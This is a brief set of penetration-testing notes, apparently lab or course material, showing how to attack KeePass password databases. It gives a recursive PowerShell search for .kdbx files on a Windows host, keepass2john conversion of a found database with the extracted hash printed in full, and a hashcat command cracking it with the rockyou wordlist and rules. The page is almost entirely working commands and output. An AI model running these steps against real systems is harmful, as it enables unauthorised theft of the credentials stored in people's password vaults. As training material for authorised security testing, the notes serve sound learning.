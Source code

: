 # Password Managers



## Search For KeepPass Files

```bash
PS C:\Users\jason> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
    
    
    Directory: C:\Users\jason\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/30/2022   8:19 AM           1982 Database.kdbx
```



### Converting .kdbx to hash with keepass2john

<pre class="language-bash"><code class="lang-bash"><strong>kal@kali keepass2john Database.kdbx > keepass.hash   
</strong>
kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
</code></pre>



### Running Hashcat w/ rules

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
```


